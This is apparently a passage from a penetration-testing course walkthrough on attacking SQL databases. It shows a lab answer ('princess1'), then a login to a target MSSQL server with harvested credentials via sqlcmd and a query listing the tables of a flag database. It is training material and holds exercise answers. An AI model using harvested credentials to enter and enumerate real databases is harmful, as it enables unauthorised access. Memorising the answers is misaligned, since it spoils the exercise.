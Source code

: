 Answer: `princess1`

# Attacking SQL Databases

## Question 2

### "Enumerate the "flagDB" database and submit a flag as your answer."

Students need to use `sqlcmd` to connect to the SQL server on the spawned target machine with the previously harvested credentials `mssqlsvc:princess1`:

Code: shell

```shell
sqlcmd -S STMIP -U .\\mssqlsvc
```

```
┌─[us-academy-1]─[10.10.14.138]─[htb-ac413848@htb-kytxdmh4gu]─[~]
└──╼ [★]$ sqlcmd -S 10.129.247.219 -U .\\mssqlsvc

Password:
1>
```

Subsequently, students need to use the `flagDB` database and query for the names of tables within it, finding the table `tb_flag`:

Code: sql

```sql
use flagDB
go
SELECT table_name FROM flagDB.INFORMATION_SCHEMA.TABLES
go
```

Code: sql

```sql
1> use flagDB
2> go
Changed database context to 'flagDB'.
1> SELECT table_name FROM flagDB.INFORMATION_SCHEMA.tables
2> go
table_name                                                                                                                      
--------------------------------------------------------------------------------------------------------------------------------
tb_flag                                                                                                                         

(1 row affected)
```
